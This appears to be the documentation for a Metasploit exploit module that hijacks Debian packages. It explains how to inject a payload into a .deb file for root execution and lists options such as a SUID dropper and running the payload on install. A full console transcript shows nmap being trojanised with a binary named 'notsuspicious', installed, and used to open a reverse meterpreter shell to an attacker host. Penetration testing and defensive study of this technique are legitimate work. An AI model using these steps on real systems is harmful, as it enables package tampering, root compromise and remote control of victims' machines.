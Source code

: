 ## Vulnerable Application

This module exploits the widespread lack of per-package signing
in the Debian package ecosystem. Most `.deb` files are vulnerable
to manipulation if read-write access is available. By injecting a
payload into the package we can gain execution as the root user.
Custom dependencies can also be specified, allowing us to install
additional software. This module can be run with a handler, but it
is not enabled by default.

The exploit module was authored by:

- Andrew Vanderbilt @ Vander Security (Original PoC)
- Nick Cottrell <Rad10Logic> (PoC Additions)

## Verification Steps

 1. Start msfconsole
 2. Get a root session
 3. `use exploit/linux/local/debian_package_hijacker`
 4. `set SESSION <id>`
 5. `set PACKAGE <package_name>` # should be either path to local package or name of apt package
 6. `set DEPENDENCIES <extra_dependencies>`
 7. `set INSTALL_PACKAGE true`
 8. `set DisablePayloadHandler false`
 9. `set ExecuteOnInstall true`
10. `exploit -z`
11. Ensure you have a 2nd root session


## Options

The module provides several configurable options:

- `PACKAGE` (required): The absolute file path to the Debian package
to hijack.

- `INSTALL_PACKAGE` (optional): If set to true, the module will
attempt to install the newly infected package, reinstalling the
package if necessary. Default is `false`.

- `DEPENDENCIES` (optional): Package dependencies to inject into
control file. Separate multiple dependencies with a comma (`,`), e
g., `depends1,depends2`.

- `PAYLOAD_DESTINATION` (optional): Determines where the binary will
be stored. This option is only available when `TARGET` is set to
`Linux dropper`.

- `SUID_PAYLOAD` (optional): If set to true, the payload will have
the SUID bit set so anyone running it will be root. Default is
`true`. This option is only available when `TARGET` is set to
`Linux dropper`.

There are also some advanced options:

- `WritableDir` (required): A directory where temporary files can be
written, default is `/tmp/`.

- `ExecuteOnInstall` (optional): If set to true, the payload will be
executed during installation. Default is `false`. This option is only
available when `TARGET` is set to `Linux dropper`.

## Scenarios

```
msf6 > use exploit/linux/local/debian_package_hijacker
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/debian_package_hijacker) > set session 6 
session => 6
msf6 exploit(linux/local/debian_package_hijacker) > set verbose true 
verbose => true
msf6 exploit(linux/local/debian_package_hijacker) > set package nmap
package => nmap
msf6 exploit(linux/local/debian_package_hijacker) > set install_package true 
install_package => true
msf6 exploit(linux/local/debian_package_hijacker) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/debian_package_hijacker) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 exploit(linux/local/debian_package_hijacker) > set AllowNoCleanup true 
AllowNoCleanup => true
msf6 exploit(linux/local/debian_package_hijacker) > run

[+] Session confirms it's Debian.
[*] Could not find deb file in PACKAGE path
[+] Found PACKAGE as apt package
[*] Working directory: /tmp/.icfpw36j
[*] postinst_file: /tmp/.icfpw36j/extracted/DEBIAN/postinst.
[*] control_file: /tmp/.icfpw36j/extracted/DEBIAN/control.
[*] Creating directory /tmp/.icfpw36j
[*] /tmp/.icfpw36j created
[*] Could not find package on system, but found it in apt
[*] Package: nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb
[*] Adding /usr/local/bin/notsuspicious to package
[*] Creating directory /tmp/.icfpw36j/extracted/usr
[*] /tmp/.icfpw36j/extracted/usr created
[*] Creating directory /tmp/.icfpw36j/extracted/usr/local
[*] /tmp/.icfpw36j/extracted/usr/local created
[*] Creating directory /tmp/.icfpw36j/extracted/usr/local/bin
[*] /tmp/.icfpw36j/extracted/usr/local/bin created
[*] Generated payload file at usr/local/bin/notsuspicious
[*] Set new binary to proper permissions
[*] New binary digest [b20b40c1ea21325f5dd4431d2a8a446d]
[*] Added new hash to sums
[*] Installing infected package
[*] Running command: apt install -y ./nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb
[*] 
WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

Reading package lists...
Building dependency tree...
Reading state information...
The following additional packages will be installed:
  liblinear4 nmap-common
Suggested packages:
  liblinear-tools liblinear-dev ncat ndiff zenmap
The following NEW packages will be installed:
  liblinear4 nmap nmap-common
0 upgraded, 3 newly installed, 0 to remove and 0 not upgraded.
Need to get 4060 kB/5960 kB of archives.
After this operation, 25.9 MB of additional disk space will be used.
Get:1 /home/radmin/nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb nmap amd64 7.91+dfsg1+really7.80+dfsg1-2 [1899 kB]
Get:2 http://deb.debian.org/debian bullseye/main amd64 liblinear4 amd64 2.3.0+dfsg-5 [43.6 kB]
Get:3 http://deb.debian.org/debian bullseye/main amd64 nmap-common all 7.91+dfsg1+really7.80+dfsg1-2 [4017 kB]
debconf: unable to initialize frontend: Dialog
debconf: (TERM is not set, so the dialog frontend is not usable.)
debconf: falling back to frontend: Readline
debconf: unable to initialize frontend: Readline
debconf: (This frontend requires a controlling tty.)
debconf: falling back to frontend: Teletype
dpkg-preconfigure: unable to re-open stdin: 
Fetched 4060 kB in 1s (6302 kB/s)
Selecting previously unselected package liblinear4:amd64.
(Reading database ... 261904 files and directories currently installed.)
Preparing to unpack .../liblinear4_2.3.0+dfsg-5_amd64.deb ...
Unpacking liblinear4:amd64 (2.3.0+dfsg-5) ...
Selecting previously unselected package nmap-common.
Preparing to unpack .../nmap-common_7.91+dfsg1+really7.80+dfsg1-2_all.deb ...
Unpacking nmap-common (7.91+dfsg1+really7.80+dfsg1-2) ...
Selecting previously unselected package nmap.
Preparing to unpack .../nmap_7.91+dfsg1+really7.80+dfsg1-2_amd64.deb ...
Unpacking nmap (7.91+dfsg1+really7.80+dfsg1-2) ...
Setting up liblinear4:amd64 (2.3.0+dfsg-5) ...
Setting up nmap-common (7.91+dfsg1+really7.80+dfsg1-2) ...
Setting up nmap (7.91+dfsg1+really7.80+dfsg1-2) ...
Processing triggers for man-db (2.9.4-2) ...
[*] Package installed. Marking downloaded package for deletion.
msf6 exploit(linux/local/debian_package_hijacker) > use payload/linux/x64/meterpreter/reverse_tcp 
msf6 payload(linux/x64/meterpreter/reverse_tcp) > set lhost vboxnet0 
lhost => 192.168.56.1
msf6 payload(linux/x64/meterpreter/reverse_tcp) > exploit -z
[*] Payload Handler Started as Job 3
msf6 payload(linux/x64/meterpreter/reverse_tcp) > 
[*] Started reverse TCP handler on 192.168.56.1:4444 
sessions -i 6 -c /usr/local/bin/notsuspicious
[*] Running '/usr/local/bin/notsuspicious' on meterpreter session 6 (192.168.56.126)
[*] Sending stage (3045348 bytes) to 192.168.56.126
[*] Meterpreter session 7 opened (192.168.56.1:4444 -> 192.168.56.126:37788) at 2023-07-17 16:40:37 -0400
[*] This is CredCollect, I have the conn!
```
